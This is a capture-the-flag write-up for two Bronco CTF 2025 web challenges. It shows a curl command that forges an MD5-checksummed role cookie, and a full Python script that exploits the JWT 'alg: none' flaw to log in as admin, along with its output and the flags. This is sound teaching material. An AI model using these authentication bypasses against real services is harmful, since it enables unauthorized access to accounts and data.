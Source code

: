 --------------

### CTF-: BRONCO CTF 2025

--------------

![image](https://github.com/user-attachments/assets/701bde62-84df-4985-9561-4d9d69f1434e)

---------------

### CHALLENGES-:

----------------

- Web-:
 - Grandma's Secret Recipe
 - Mika's Autograph

----------------

### Grandma's Secret Recipe

-----------------

![image](https://github.com/user-attachments/assets/2ed8ef70-1f2c-4215-bed7-e6ca8c655f06)

------------------

- I checked  the curl shows 3 endpoints as seen below and that we are logged in as `kitchen helper`

![image](https://github.com/user-attachments/assets/7348f296-603a-4fd7-aa23-f1dfd254c47b)

- I ran `curl`  with `-v` for a verbose output which will include request and response headers.I noticed the role header and checksum containing an hash.

![image](https://github.com/user-attachments/assets/08014ebd-b0dd-41b8-9d10-2e62b239b503)

- I computed the hash for the value `kitchen helper` in md5 and got the same hash.

![image](https://github.com/user-attachments/assets/729da742-65f6-4a4c-bf26-c07ad0ffac0e)

- In order to get the flag, we need to create an hash with the value `grandma` and pass it to the route `/grandma` to get the flag

```bash
❯ curl https://grandma.web.broncoctf.xyz/grandma -H "Cookie: role=grandma;checksum=a5d19cdd5fd1a8f664c0ee2b5e293167"

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Grandma's Bakery</title>
    <style>
        body { font-family: 'Comic Sans MS', cursive, sans-serif; background-color: #ffe5b4; text-align: center; }
        .container { margin-top: 50px; padding: 20px; background: #fff8dc; border-radius: 10px; display: inline-block; box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1); }
        .flag { font-weight: bold; color: green; }
        .btn { display: inline-block; padding: 10px 20px; margin: 10px; background-color: #d2691e; color: white; text-decoration: none; border-radius: 5px; }
        h1 { color: #8b0000; }
    </style>
</head>
<body>
    <div class="container">
        <h1>Welcome to Grandma's Bakery!</h1>
        <p>Grandma&#39;s Secret Recipe: </p>
        <p class="flag">Flag: bronco{grandma-makes-b3tter-cookies-than-girl-scouts-and-i-w1ll-fight-you-over-th@t-fact}</p>
        <br>
        <a class="btn" href="/login">Login</a>
        <a class="btn" href="/logout">Logout</a>
        <a class="btn" href="/grandma">Grandma's Pantry</a>
    </div>
</body>
</html>%
```

- Flag-: ```bronco{grandma-makes-b3tter-cookies-than-girl-scouts-and-i-w1ll-fight-you-over-th@t-fact}```

-------------

### Miku's Autograph

------------

![image](https://github.com/user-attachments/assets/6c602426-f82b-4e66-870f-ec52a644c878)

------------

- This challenge is based on `jwt exploitation`.If an attacker sets the base64 encoded header key `alg` to `none`, the server takes the jwt as having no algorithm and decodes it freely without the secret key.
- I wrote a script to automate the process

```python3
#! /usr/bin/env python3
from ten import *
from tenlib.transform import *
from dataclasses import *

set_message_formatter("Oldschool")
@arg("-h","--host")
@entry
@dataclass
class Exploit:
      host: str
      @staticmethod
      def tweakToken(token: str) -> str:
          header,payload,signature =  token.split(".")
          base64_decoded_header = json.decode(base64.decode(header)) 
          base64_decoded_payload = json.decode(base64.decode(payload))
          #Chaning alg to none
          base64_decoded_header["alg"] =  "none"
          base64_decoded_payload["sub"] = "miku_admin"
          header = base64.encode(json.encode(base64_decoded_header)).replace("=","")
          payload = base64.encode(json.encode(base64_decoded_payload)).replace("=","")
          cookie =  f"{header}.{payload}.{signature}"
          msg_info(f"Tweaked Cookie is : {cookie}")
          return cookie

      def run(self):
          session = ScopedSession(self.host)
          #Retrieving the token
          msg_info("Retreiving the token....")
          token = json.decode(session.get("/get_token").text)["your_token"]
          cookie = Exploit.tweakToken(token)
          data  =  {"magic_token": cookie}
          flag =  session.post("/login",data=data)
          msg_info(flag.text)

if __name__ == "__main__":
   Exploit()
```

- Flag-:```bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}```

```bash
❯ ./solve.py https://miku.web.broncoctf.xyz
[*] Retreiving the token....
[*] Tweaked Cookie is : 
eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAibWlrdV9hZG1pbiIsICJleHAiOiAxNzM5NjkzNTMwfQ.iCWM6lasTvp87UENXJLecwpZI37AqRTN-zROg8sOE-M
[*] <h2>Welcome, Miku Admin! Here's your flag: bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}</h2>
```





